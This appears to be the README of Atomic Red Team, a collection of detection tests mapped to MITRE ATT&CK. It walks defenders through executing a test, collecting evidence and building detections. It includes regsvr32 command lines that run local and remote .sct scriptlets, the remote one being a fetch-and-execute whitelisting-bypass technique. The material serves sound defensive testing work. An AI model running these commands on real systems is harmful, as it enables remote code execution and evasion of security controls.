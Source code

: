 # Atomic Red Team

Small and highly portable detection tests mapped to the [Mitre ATT&CK Framework.](https://attack.mitre.org/wiki/Main_Page)

## How to use Atomic Red Team

Our Atomic Red Team tests are small, highly portable detection tests mapped to the MITRE ATT&CK Framework. Each test is designed to map back to a particular tactic. We hope that this gives defenders a highly actionable way to immediately start testing their defenses against a broad spectrum of attacks.

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision, and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

There are three phases to the testing framework:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

This particular test is fairly easy to exercise, since the tool is default on all Windows workstations.

The details of this test case are [here](Windows/Execution/Regsvr32.md).

Two methods are provided to perform the Atomic Test:

#### Local

For a local simulation use the provided .sct file:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

#### Remote

For a remote simulation you will need a remotely accessible server to grab/download this file, or use gist:

    regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/RegSvr32.sct scrobj.dll

### Phase 2: Collect Evidence

What does your security solution observe? You may see a file modification in the user’s profile. You may detect network connections made by regsvr32.exe to an external IP. There may be an entry in the proxy logs. You may observe the scrobj.dll loading on Windows. Or, you might not observe any behavior on the endpoint or network. This is why we test! To identify visibility gaps and determine where improvements need to be made.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line “/s /u /i” then all an attacker has to do is slightly modify the command line to evade your detection.

### Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez (@cyb3rWar0g) provided this spreadsheet and complementary blog post showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)


## Mitre ATT&CK Matrix

We broke the repository into three working matrices: 

[Windows MITRE ATT&CK Matrix](Windows/Windows.md)

[Mac MITRE ATT&CK Matrix](Mac/Mac.md)

[Linux MITRE ATT&CK Matrix](Linux/Linux.md)

#### We did not create the MITRE ATT&CK Framework, we just think it is awesome and extensive.

#### ATT&CK and ATT&CK Matrix are trademarks of The MITRE Corporation
